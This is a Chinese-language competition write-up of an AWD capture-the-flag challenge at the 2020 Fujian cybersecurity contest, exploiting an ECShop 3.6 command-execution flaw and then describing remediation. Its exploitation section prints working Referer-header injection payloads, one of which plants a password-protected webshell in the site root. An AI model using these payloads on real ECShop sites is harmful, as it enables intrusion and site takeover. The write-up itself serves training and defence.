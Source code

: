 > 原文链接: https://www.anquanke.com//post/id/217925 


# 2020年国家网络安全宣传周福建省网络空间安全技能竞赛AWD Writeup


                                阅读量   
                                **209362**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t01b8357918dc0bb510.jpg)](https://p3.ssl.qhimg.com/t01b8357918dc0bb510.jpg)



## 漏洞利用

1、 访问目标系统，是个ECShop商城网站。

**[![](https://p0.ssl.qhimg.com/t013e72e689eace3d5b.png)](https://p0.ssl.qhimg.com/t013e72e689eace3d5b.png)**

2、 浏览界面发现， ecshop 版本为 3.6，ecshop3.6 存在命令执行漏洞

[![](https://p3.ssl.qhimg.com/t019a422ee93858563b.png)](https://p3.ssl.qhimg.com/t019a422ee93858563b.png)

3、 进行漏洞利用，启动 burpsuite。

[![](https://p4.ssl.qhimg.com/t01191de325dcd84e8a.png)](https://p4.ssl.qhimg.com/t01191de325dcd84e8a.png)

4、 注册账户,访问 user.php 并传参数 act=login 同时抓包

[![](https://p1.ssl.qhimg.com/t018bdfe16bbc72348a.png)](https://p1.ssl.qhimg.com/t018bdfe16bbc72348a.png)

5、 添加 Referer 头信息并传入 poc

显示 Phpinfo 信息如下

Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:`{`s:3:”num”;s:107:”*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e66

6f0928293b2f2f7d787878,10– -“;s:2:”id”;s:11:”-1′

UNION/*”;`}`45**ea207d7a2b68c49582d2d22adf953a**

Wehshell 如下（会在网站根目录下生成一个 1.php,密码：1337）:

Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:`{`s:3:”num”;s:289:”*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b617373657274

286261736536345f6465636f646528275a6d6c735a563977645852665932397564475

67564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58

314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10

— -“;s:2:”id”;s:11:”-1′ UNION/*”;`}`

[![](https://p5.ssl.qhimg.com/t014737ed1ca860cfdb.png)](https://p5.ssl.qhimg.com/t014737ed1ca860cfdb.png)

[![](https://p1.ssl.qhimg.com/t01e312df6041a8789e.png)](https://p1.ssl.qhimg.com/t01e312df6041a8789e.png)

6、 执行如下 poc 可直接上传一个 webshell

[![](https://p0.ssl.qhimg.com/t015eb2158f169cc8c1.png)](https://p0.ssl.qhimg.com/t015eb2158f169cc8c1.png)

7、 使用蚁剑进行 webshell 连接

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0107b42cb821d9b0c8.png)

**竞赛详情了解****：**<u>[http://www.si.net.cn/](http://www.si.net.cn/)</u>

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01f932ec1357887c84.png)



## 漏洞防护

1、对漏洞进行修复,进入网站服务器内，修改/includes/lib_insert.php

[![](https://p1.ssl.qhimg.com/t0163a93cc2c7028cfc.png)](https://p1.ssl.qhimg.com/t0163a93cc2c7028cfc.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c370ee10ff178945.png)

2、使用 hmwebshell 工具扫描木马，进行删除

[![](https://p5.ssl.qhimg.com/t01a56740c5725eb368.png)](https://p5.ssl.qhimg.com/t01a56740c5725eb368.png)



## 活动简介

网络空间的竞争，归根到底是人才的竞争。9月12日至13日，由省委网信办、省教育厅、省公安厅联合主办的2020年国家网络安全宣传周福建省网络空间安全技能竞赛高校学生组暨“黑盾杯”赛项成功举办。

竞赛详情了解：[<u>http://www.si.net.cn/</u>](http://www.si.net.cn/)
